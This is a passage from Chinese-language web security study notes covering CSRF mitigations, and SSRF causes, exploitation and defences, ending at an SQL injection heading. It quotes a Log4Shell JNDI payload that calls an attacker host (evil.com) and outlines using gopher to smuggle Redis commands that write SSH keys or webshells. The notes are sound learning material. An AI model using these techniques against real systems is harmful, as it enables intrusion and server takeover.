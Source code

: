 但是Strict会完全阻止第三方cookie，这会大幅影响用户体验。如果设置为LAX，导航跳转和GET请求表单都会携带cookie，此时如果应用的重要操作时GET进行的，那还是存在CSRF漏洞。

同时即使设置为Strict还是阻止不了第二类由站内发情的申请，因此这个方案也只能作为缓解，不能依赖

## Anti-CSRF Token

这才是业内**标准的做法**

CSRF能执行的重要一点就是攻击者可以预测到完整的url，从而伪造一个请求。因此我们给url引入一个随机的Token值。因为是随机的，**不可预测**的，因此攻击者无法构造出一个带合法Token的url来请求。

但是Anti-CSRF Token仅仅只能用来防御CSRF，假如这个网站同时存在XSS，那么攻击者就可以通过XSS读取这个Token值，防御也就无效了。不过这严格来说算XSS攻击。

# SSRF

## 概述

一句话概括成因：攻击者可以让服务端访问指定的url，目标**通常**是没有授权认证机制的内网应用。

比如web应用在前端页面上放一个输入框，获取用户要访问的url，然后访问。本意可能是拍摄其他网站的快照，但是没有对url进行校验导致可以访问内网应用。

**SSRF**漏洞利用的表现形式很像**文件包含漏洞**。远程文件包含漏洞可以算作SSRF漏洞，因为是让服务端访问了意料外的url。（比如遇到的通过远程文件包含访问攻击机器的smb服务捕获NTLM哈希）而SSRF漏洞也能通过file://协议访问本机文件，达到和本地文件包含漏洞一样的效果。

有时候SSRF没有回显，我们可以用与SQL盲注的带外数据注入一样的方式进行“SSRF盲打”，原理就是利用DNS服务器日志进行记录，网上也很多现成的DNSlog平台。（注意这是用来探测漏洞是否存在）

SSRF漏洞的定义很广泛，只要是服务端发出了意料之外的请求都算，因此有很多**触发途径**：

1. 最简单的把输入的url拿来直接访问
2. 通过解析存在XXE漏洞的XML文件触发请求
3. 服务端对如邮件系统的**网址安全检测功能**的内容检测引擎为了检验url的安全性，也会先访问触发SSRF
4. log4jshell是不是也算？log4jshell一般是指Log4j2解析含有有jndi请求如`${jndi:ldap://evil.com/a}`的日志，解析到了jndi语法直接执行，出发了jndi请求。我们一般归类为JNDI注入，但是从它的最终的表现形式来看，完全符合“服务端请求伪装”。

## 利用

1. 端口扫描，通过对不同IP，端口的请求的反应时间不同判断主机存活情况以及端口开放状态。这属于侧信道攻击。
2. 利用协议访问非Web应用

第二点是SSRF攻击的重点。比如简单的file协议访问本地文件。危害最大的就是通过DICT，Gopher，LDAP等协议达到协议走私效果，以Gopher为例：
**`gopher://<host>:<port>/<gophertype><selector>`**

最后`<selector>`的内容会被直接发送给服务器，比如可以在这部分放一个HTTP数据包，或者redis的指令。

注意Gopher协议最理想夹带建立TCP链接后立马就能用，无需额外握手的协议以及无需握手的服务。前者如HTTP，后者如Redis。像TLS就无法使用Gopher完成握手，就不可能实施攻击。

Redis算是大头，因为它默认没有身份认证，随便访问。可以篡改敏感数据，或者存恶意数据通过SAVE指令写入文件，从而写入ssh公钥啊，写入webshell啊等等。

## 防御

SSRF没有固定防御方案，主要依赖白名单URL，以及加强内网应用的授权认证机制（**零信任模型**）

注意黑名单比较容易绕过，比如把**内网域名**作为黑名单，可以通过能解析到任意IP地址的泛域名，通过伪造域名修改DNS记录等方式绕过。把**内网IP**作为黑名单也存在很多绕过方法，不再赘述。

# SQL注入
